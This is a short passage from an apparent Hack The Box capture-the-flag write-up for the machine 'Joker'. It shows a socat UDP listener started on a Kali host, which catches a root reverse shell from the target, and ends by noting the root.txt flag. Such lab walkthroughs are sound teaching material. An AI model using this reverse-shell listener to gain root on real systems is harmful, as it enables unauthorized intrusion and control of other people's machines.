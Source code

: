 Fire up our socat listener and wait for the job to run.

```
root@kali:~/htb/joker# socat file:`tty`,echo=0,raw  udp-listen:100
root@joker:/home/alekos/development# id
uid=0(root) gid=0(root) groups=0(root)
root@joker:/home/alekos/development# 
```

And now we have our root shell and can grab the root.txt flag!
 